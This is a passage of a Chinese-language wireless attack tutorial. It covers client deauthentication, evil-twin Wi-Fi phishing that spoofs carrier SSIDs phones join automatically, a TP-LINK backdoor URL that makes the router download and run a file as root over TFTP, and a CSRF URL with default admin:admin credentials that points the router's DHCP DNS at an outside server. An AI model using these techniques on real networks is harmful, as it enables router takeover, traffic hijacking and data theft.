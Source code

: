 这种攻击不是针对 AP 的，而是针对于 client 的，当我们发动攻击的时候我们可以马上看到无法访问网络了，见效很快。此时我们可以利用-s 参数来加快发包速率。这种效率是非常高的，一般发动开始，client 便开始断网。

## 0x02 WIFI 钓鱼

* * *

## 被动式攻击

* * *

建立虚假 wifi 热点,等候别人的连接，安装 tcpdump 等工具进行抓包窃取数据。

## 主动式攻击

* * *

利用智能手机 Wi-Fi 广播 协议的缺陷 / 自动接入设计进行攻击。

手机连接过 WIFI 热点信息之后会保存在手机里，每次进入无线覆盖范围就会自动接入。

公开 WIFI 热点

```
 中国移动热点：CMCC、CMCC-EDU 等

 中国联通热点：ChinaUnicom 等

 中国电信热点：ChinaNet、ChinaTelecom 等 
```

无线设备为了加快连接速度，会对外广播过它连接过什么无线，ssid 是多少。如果我截获到了这个广播，我自然能知道你连过什么无线，把这个无线伪造出来

建立相同 SSID 切没有密码的 ap 热点，手机会主动连接手机里已连接过的 AP 热点，连接的时候只验证 SSID 是否相同，当不存在密码的时候，不用去验证，会主动连接。(应该是安卓 4.2 以下版本可以)。

国产手机自带的 Wlan 服务(删都删不掉)

将运营商的 Wi-Fi 热点内置到你的手机中，更有甚者一些手机中这几个 Wi-Fi 你都删不掉，碰到了就连上，这样的情况下 我们随意建立一个类似于 CMCC 等热点就可以进行信息窃取。

## 0x03 设备攻防

* * *

TP-link 后门

TP-LINK 的某些型号的路由器存在一个后门功能，通过访问某个无需授权认证的特定页面，路由器会自动从攻击者控制的 TFTP 服务器上下载程序并执行。攻击者利用这个漏洞可以在路由器上以 root 身份执行任意命令，从而可完全控制路由器。

http://192.168.0.1/userRpmNatDebugRpm26525557/start_art.html ” ，路由器会从发起请求的机器通过 tftp 下载一个 nart.out 文件，并以 root 权限执行该文件。

CSRF 攻击

```
 IE 不支持 Http Authentication  使用此方法在 IE 下攻击是无效的 完美兼容 FF chrome。

http://admin:admin@192.168.1.1/userRpm/LanDhcpServerRpm.htm?dhcpserver=1&ip1=      192.168.1.100&ip2=192.168.1.199&Lease=120&gateway=0.0.0.0&domain=&dnsserver=&dnsserver=54.248.102.5&dnsserver2=8.8.8.8&Save=%25B1%25A3+%25B4%25E6 
```
